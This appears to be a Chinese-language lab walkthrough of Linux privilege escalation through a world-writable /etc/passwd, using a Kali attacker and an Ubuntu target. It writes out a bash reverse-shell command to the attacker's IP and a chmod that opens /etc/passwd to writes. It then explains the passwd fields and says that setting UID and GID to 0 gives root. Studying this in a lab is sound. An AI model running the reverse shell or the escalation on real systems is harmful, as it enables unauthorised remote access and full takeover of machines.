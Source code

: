 ### /etc/passwd 配置错误提权

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

手动修改 `/etc/passwd` 权限

```sh
chmod 666 /etc/passwd
```

![](https://pic1.imgdb.cn/item/68c70f62c5157e1a88020e11.png)

![](https://pic1.imgdb.cn/item/68c713e0c5157e1a8802127e.png)

**用户名（login name）** — `supermanqiang`

 这是用于登录系统的账号名

**密码字段（password field）** — `x`

 现代 Linux 系统通常在 `/etc/shadow` 存放加密的密码哈希；`x` 表示密码在 `/etc/shadow`，而不是直接放在 `/etc/passwd` 中

- 如果这里是 `*` 或 `!`，通常表示帐号被锁定/不能用密码登录

**用户 ID（UID）** — `1000`

 数字标识用户身份。常见规则：`0` 为 root，`1000` 常是第一个普通用户（取决于发行版）

**组 ID（GID）** — `1000`

 用户所属的主组 ID。通常会对应 `/etc/group` 中的某个组名（通常第一个用户会创建同名组，GID 与 UID 相同）

**GECOS 字段（用户信息）** — `supermanqiang,,,`

 这是一个用逗号分隔的可选信息（通常可包含全名、房间号、工作电话、家庭电话等）

- 在这例子中只有 `supermanqiang`（可能是全名），后面三个逗号表示后面三个子字段为空

**家目录（home directory）** — `/home/supermanqiang`

 用户登录后默认的工作目录

**登录 shell（login shell）** — `/bin/bash`
 用户登录时启动的 shell；常见还有 `/bin/sh`, `/bin/zsh`, `/usr/sbin/nologin`（禁止交互登录）等

将两个 1000 修改为 0 即可提权